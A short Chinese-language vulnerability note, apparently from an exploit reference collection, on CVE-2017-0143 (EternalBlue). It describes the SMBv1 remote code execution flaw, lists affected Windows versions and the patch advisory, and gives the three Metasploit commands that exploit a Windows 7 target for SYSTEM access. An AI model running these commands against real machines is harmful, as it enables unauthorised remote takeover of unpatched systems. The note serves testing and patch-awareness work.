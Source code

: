 ### CVE-2017-0143

#### 描述

Eternalblue通过TCP端口445和139来利用SMBv1和NBT中的远程代码执行漏洞，恶意代码会扫描开放445文件共享端口的Windows机器，无需用户任何操作，只要开机上网。大名鼎鼎的永恒之蓝漏洞

#### 影响版本

| Product             | Version | Update | Edition | Tested             |
| ------------------- | ------- | ------ | ------- | ------------------ |
| Windows 10          |         |        |         |                    |
| Windows 10          | 1511    |        |         |                    |
| Windows 10          | 1607    |        |         |                    |
| Windows 7           | -       | SP1    |         | :heavy_check_mark: |
| Windows 8.1         |         |        |         |                    |
| Windows Rt 8.1      | -       |        |         |                    |
| Windows Server 2008 | -       | SP2    |         |                    |
| Windows Server 2008 | R2      | SP1    |         |                    |
| Windows Server 2012 | R2      |        |         |                    |
| Windows Server 2012 | Gold    |        |         |                    |
| Windows Server 2016 |         |        |         |                    |
| Windows Vista       |         | SP2    |         |                    |

#### 修复补丁

```
https://portal.msrc.microsoft.com/en-US/security-guidance/advisory/CVE-2017-0143
```

#### 利用方式

直接用msf就行，方便快捷，测试系统windows 7 sp1 x64

```
use exploit/windows/smb/ms17_010_eternalblue
set RHOSTS 192.168.0.128
run
```

![image-20200818114043309](https://github.com/Ascotbe/Random-img/blob/master/WindowsKernelExploits/CVE-2017-0143_msf_1.png?raw=true)

并且权限是system的

![image-20200818114925926](https://github.com/Ascotbe/Random-img/blob/master/WindowsKernelExploits/CVE-2017-0143_msf_2.png?raw=true)



### 